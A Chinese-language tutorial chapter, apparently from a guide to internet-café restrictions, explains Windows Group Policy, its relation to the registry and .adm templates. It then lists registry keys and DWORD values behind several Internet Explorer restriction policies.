- 2.1.1、什么是组策略

前面已经说过，注册表是 Windows 系统中保存系统软件和应用软件配置的数据库，而随着 Windows 功能越来越强大，注册表里的配置项目也越来越多。这些设置分布在注册表的各个角落，虽然注册表编辑器已经将注册表的结构进行了很大程度的整理，但还是很不容易被用户使用。我们可以看直观图，在“开始”→“运行”中输入 regedit，出现注册表编辑器，你可以打开各键，如图 2-1-1。

全部都是英文字母，没有注释。在左侧的目录树区域中没有明确指明各个项都是做哪方面配置的；在右侧的“名称”“类型”“数值”列也同样没有给出都有哪些数据可以被接受，每个数据数值都代表什么意思。可以想象，让用户在注册表中配置软件是多么困难和繁杂。



基于编辑注册表复杂性的考虑，微软在 Win9x 中就引入了“系统策略”的概念，并且在 Win9x 中提供了相应工具——系统策略编辑器。它在系统安装时并不被安装，程序文件在 Windows 安装盘上的 `\tools\reskit\netadmin\poledit` 目录下，它包括 Poledit.exe、Poledit.inf、Windows.adm 等文件。9x 中的系统策略运行机制是通过策略管理模板定义特定的 POL（通常是 Config.pol）文件。当用户登录时，它会重写注册表中的设置值。当然，系统策略编辑器也支持对当前注册表的修改，另外也支持连接网络计算机并对其注册表进行设置。

而从 Win2000 开始，微软开始使用“组策略编辑器”，它在系统安装时默认安装。在 Win2000/XP/2003 中，组策略隶属于 mmc（Microsoft Management Console，Microsoft 管理控制台），它是 mmc 的一个管理单元，我们可以通过 mmc 来打开组策略编辑器。组策略实际上是系统策略的高级扩展，它比后者具有更多的管理模板、更灵活的设置对象及更多的功能。组策略最大的特色在于它可以打开网络上的计算机进行系统配置，这是以前“系统策略编辑器”工具无法做到的。

当然，无论是“系统策略编辑器”还是“组策略编辑器”，它们都是将系统重要的配置功能汇集成各种配置模块，供用户直接使用，从而达到方便管理计算机的目的。它们的基本原理都是修改注册表中相应的配置项目，从而达到配置计算机的目的；只是它们的一些运行机制发生了变化和扩展而已。我们生活在 NT 时代，当然要说组策略了。组策略使用了比注册表编辑器更完善的管理组织方法，可以对各种对象中的设置进行管理和配置，远比手工修改注册表方便、灵活和直观，功能也更加强大。

- 2.1.2、直观组策略

组策略被安装在 `%systemroot%\system32` 目录下，你可以去那里直接运行，它的名称是 gpedit.msc；也可以在“运行”中直接输入这个名称。同样我们可以通过 mmc 添加管理单元进入组策略设置。首先在“运行”中输入 mmc，就打开了控制台程序。点击“文件”菜单，选择“添加/删除管理单元”，就打开一个对话框，如图 2-1-2。点击那个“添加”按钮，出现“添加独立管理单元”对话框，选择里面的“组策略对象编辑器”，如图 2-1-3。然后点“添加”，接着点“完成”，然后在图 2-1-2 的对话框上点“确定”，就会在控制台的根节点获得一个“本地计算机”策略。双击它，就打开了组策略设置的各项了。这里我们还是来看直接运行组策略的效果，如图 2-1-4。



## 第二章 透视网吧限制



大家可以看到，组策略有两个基本的项目：计算机配置和用户配置。“计算机配置”对应注册表的 **HKEY_LOCAL_MACHINE** 根键，主要配置的是系统的一些策略，这些对我们不是很重要，我们平时时候是接触不到的；重要的设置都放到了“用户配置”里面，对应注册表的 **HKEY_CURRENT_USER\Software** 键，包括界面设置、Windows 组件的相关设置等，都是用户平常操作经常会接触到的。而在“用户配置”下，我们用来设置限制或者解除限制的项目都放在了“管理模板”里。

管理模板是组策略中很重要的项目，默认情况下它包含“Windows 组件”、“任务栏和『开始』菜单”、“桌面”、“控制面板”、“共享文件夹”、“网络”和“系统”几个子项目。为什么这么说呢，因为管理模板可以添加（当然也可以删除）。在管理模板上点击右键，选择“添加/删除模板”，在弹出来的对话框中有类似如图 2-1-5 的几个模板。

“conf” 代表 “NetMeeting”，“inetres” 代表 “Internet Explorer”，“wmplayer” 代表 “Windows Media Player”，“wuau” 代表 “Windows Update”。而 “system” 则代表除了 NetMeeting、Internet Explorer 和 Windows Media Player 的所有项目。这些项目都位于“用户配置/管理模板/Windows 组件”下，通过删除按钮我们可以删除相应项目；点击“添加”按钮，会出现如图 2-1-6 的对话框。







除了上面已经提到的五个以外还有三个，其中“添加”`AER_2052` 会在“管理模板”下添加“应用程序错误报告”项目；`inetcorp.adm` 将会在“管理模板”下添加“仅 Internet Explorer 维护”；`inctset` 则会添加到“管理模板”下“自动完成”、“显示设置”、“高级设置”和“URL 编码”几个项目。大家可能注意到了，这些模板的格式为 `.adm`，它们位于 `%systemroot%\inf` 目录中，这是个系统隐藏目录，需要在文件夹选项中设置后才可以显示。`.adm` 文件为文本格式文件，用户可以用记事本打开它们。这些文件定义了每个策略的名称、对应注册表项目、描述说明等信息，非常重要，如图 2-1-7。

既然 `.adm` 文件为文本文件，那用户就可以直接进行修改了。比如修改某个策略的名称或者描述信息等等，修改的效果在重新打开组策略后会看到。但是修改时要十分小心，一些重要的关键字最好不要碰，否则某个策略不能用了是很有可能的事情。关于 `.adm` 的文件结构，有兴趣的朋友可以参照相关资料进行学习，这些内容不是本章要讨论的，故就此停笔。





## 2.1.3 正文序言

我们了解了组策略的由来、作用以及结构，下面将进入本节的重点内容：策略对应的注册表项以及描述信息。前面已经说过，组策略就是一个通过操作注册表编辑器来修改注册表的工具，不过它的操作更直观，更容易被用户理解和接受。了解每个策略的对应注册表项，不仅有助于我们学习注册表和组策略的相关知识，通过观察和对比，我们还可以大致了解组策略的每一项与注册表的对应关系……

以下策略仅为组策略中的一部分，主要与网吧限制及网络安全有关。每个选项卡都有“未配置”“已启用”“已禁用”三个选项。多数策略是“禁止 XXX”形式，管理员要限制某项就应设置为“已启用”；若要解除限制，则通常设置为“已禁用”或“未配置”……

在注册表中，每个策略对应一个注册表项或键值，常见为 DWORD 值。由于策略名称并不能完全代表其功能，建议以实验结果为准。一般禁用值为 0，启用值为 1（个别策略相反，以具体提示为准）。好了，序言到这里，下面进入正文。





### 2.2 组策略安全相关设置与注册表对应键值汇总

我们将要讲到的策略都在“用户配置\管理模板”下。由于标题长度问题，这里约定：Internet Explorer 缩写为 IE，Microsoft Management Console 缩写为 MMC，以免找不到对应策略位置。

### 2.2.1 Windows 组件\IE

- **a. 禁用更改高级页设置**
  - 注册表键值：在 `HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel` 下新建名为 `Advanced` 的 `DWORD`，赋值为 `1`。
  - 描述：禁止用户更改“Internet 选项”对话框中“高级”选项卡上的设置。

- **b. 禁用更改主页设置**
  - 注册表键值：在 `HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel` 下新建一个名为 `HomePage` 的 `DWORD`，然后赋值为 `1`。
  - 描述：禁止用户更改浏览器主页。如果启用该策略，“Internet 选项”对话框中“常规”选项卡上“主页”区域的设置将变灰，如图 2-2-2。







- **c. 禁用在浏览器中通过按 F3 查找文件**
  - 注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions` 下新建一个名为 `NoFindFiles` 的 `DWORD`，然后赋值为 `1`。
  - 描述：禁用在 Internet Explorer 和“Windows 资源管理器”中通过按 F3 键进行搜索。如果启用该策略，将禁用 F3 键的搜索功能。用户无法通过按 F3 键搜索 Internet（在 Internet Explorer 中）和硬盘（在 Windows 资源管理器中）。如果用户按 F3 键，将出现一条消息，提示用户该功能已被禁用，如图 2-2-3。

